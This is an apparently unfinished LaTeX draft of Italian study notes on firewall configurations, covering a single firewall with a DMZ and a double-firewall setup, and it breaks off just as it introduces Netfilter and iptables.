			Esistono due configurazioni tipiche per il posizionamento di un firewall.\\
			\textbf{La prima è quella che vede il firewall separare due segmenti di rete}:
			\begin{itemize}
				\item Rete interna: vi risiedono postazioni degli utenti, i server e i database. Deve essere protetto perchè contiene informazioni importanti per un'azienda (attività in genere).
				\item Rete esterna: una rete che è accessibile dall'esterno, su cui risiedono server we, di posta e di DNS, \textbf{a diretto contatto con internet} e dunque a maggiore rischio. Tuttavia nell'ottica di chi vede la rete da fuori questa rete esterna contiene dati accessibili dall'esterno e dunque di minore valore e con minori restrizioni di accesso (\textbf{DeMilitarized Zone})
			\end{itemize}
			
			INSERIRE fire\\
			
			\textbf{La seconda configurazione prevede di aggiungere un ulteriore firewall in modo da avere due elementi di difesa prima di arrivare alla rete corporate.} La configurazione risulta più robusta perchè:
			\begin{itemize}
				\item Un attaccante deve bucare due firewall prima di arrivare alla rete corporate ( i firewall utilizzeranno software e hardware diversi per offrire ridondanza ?????????????)
				\item la DMZ è separata anche dall'interno verso l'esterno con lo stesso principio
				\item è più facile separare il traffico, quindi tipi di connessione considerati meno sicuri si possono inserire nella DMZ
			\end{itemize}
			
			INSERIRE fire2\\
			
		\subsection{Funzionamento}
			Per spiegare il funzionamento di un firewall introduciamo prima due strumenti per la gestione e il filtraggio di pacchetti in UNIX: \textbf{Netfliers} e \textbf{Iptable}.
								
			
				
			
			 
						
				
				
				
				
				
				
				
				
				
				
				
			
		
			
			
			
				
				
				
				
				
			
			
		
		
		
				
				
				
		
			
			
				
			
			
			
			 
						
		
		
		
			
		
				 

\end{document}